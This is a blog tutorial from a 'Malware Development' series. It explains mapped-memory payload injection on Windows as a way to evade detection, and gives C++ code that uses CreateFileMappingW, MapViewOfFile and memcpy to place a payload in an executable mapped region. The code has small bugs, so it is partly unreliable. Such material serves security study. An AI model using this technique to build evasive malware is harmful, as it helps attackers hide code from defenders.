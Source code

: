 ```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x9: Private vs Mapped memory"
classes: wide
header:
  teaser:  /assets/images/law.jpg
ribbon: black
description: "Article 10 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Injection
  - Memory
  - WinAPI
  - C++
toc: true
---
```


# Private vs Mapped memory

Usually and for the wide use of API calls such as `VirtualAlloc()` and `VirtualAllocEx()` and as the memory allocation type of these API calls is Private memory, the detection is becoming very high and thus it is mandatory to find an evasion technique.

Another type of Injection can be Mapping Injection, or in other words injecting malicious code in `Mapped` memory sections, and this way we can avoid using the API calls we mentioned above and use API calls such as `CreateFileMapping` and `MapViewOfFile`.

# Payload Injection in Mapped regions

## CreateFileMapping 

This API call return a handle to a file object, and the contents of the file on disk are mapped to a memory region.

```cpp
HANDLE CreateFileMappingW(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCWSTR               lpName
);
```

### Important Parameters

`[in] hFile`

A handle to the file from which to create a file mapping object.

`[in] flProtect`

Specifies the page protection of the file mapping object. All mapped views of the object must be compatible with this protection.

We usually use `PAGE_EXECUTE_READWRITE` here.

`[in] dwMaximumSizeLow`

The low-order  **DWORD**  of the maximum size of the file mapping object.

## MapViewofFile

This API call maps a view of a file mapping into the address space of a calling process.

```cpp
LPVOID MapViewOfFile(
  [in] HANDLE hFileMappingObject,
  [in] DWORD  dwDesiredAccess,
  [in] DWORD  dwFileOffsetHigh,
  [in] DWORD  dwFileOffsetLow,
  [in] SIZE_T dwNumberOfBytesToMap
);
```

### Important parameters

`[in] hFileMappingObject`

A handle to a file mapping object. The  [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga)  and  [OpenFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-openfilemappinga)  functions return this handle

`[in] dwDesiredAccess`

The type of access to a file mapping object, which determines the page protection of the pages. 

We usually use **FILE_MAP_EXECUTE** and **FILE_MAP_WRITE** because we obviously need a writeable and executable memory region.

`[in] dwNumberOfBytesToMap`

The number of bytes of a file mapping to map to the view

# Performing Injection to a Mapped memory

Here is the function that we will be using to perform the injection

```cpp
BOOL LocalMapping(IN PBYTE pPayload, IN size_t pPayloadSize, OUT PVOID pAddress) {

    HANDLE hFile = NULL;
    PVOID pMapAddress = NULL;


    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, pPayloadSize, NULL);

    if (hFile == NULL) {
        printf("CreateFileMapping failed with error %d", GetLastError());
        CloseHandle(hFile);
        return 0;
    }

    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, pPayloadSize);

    if (pMapAddress == NULL) {

        printf("MapViewofFile failed with error %d", GetLastError());
        CloseHandle(pMapAddress);
        return 0;
    }

    memcpy(pMapAddress, pPayload, pPayloadSize);
    pAddress = pMapAddress;
    return 1;
}
```

The code above implements what is called ``local mapped memory injection`` by creating an executable and writable memory region and then mapping it into the process's address space 

Then copying the payload into this mapped memory. here `CreateFileMappingW` is used to create a memory-mapped file object and `MapViewOfFile` to map this object into memory with `PAGE_EXECUTE_READWRITE` permissions. The payload is then copied into the allocated memory using `memcpy`.

# Executing

Lets execute and examine the memory regions after copying the payload.

We set a breakpoint after the `memcpy`.

![P0](/assets/images/malware-development/10-0.jpg)

And we can check the memory region type also by using Process Hacker.

![P1](/assets/images/malware-development/10-0.jpg)

As we can see, the memory is Mapped not Private, which helps us in improving our evasion technique and appearing more legitimate.
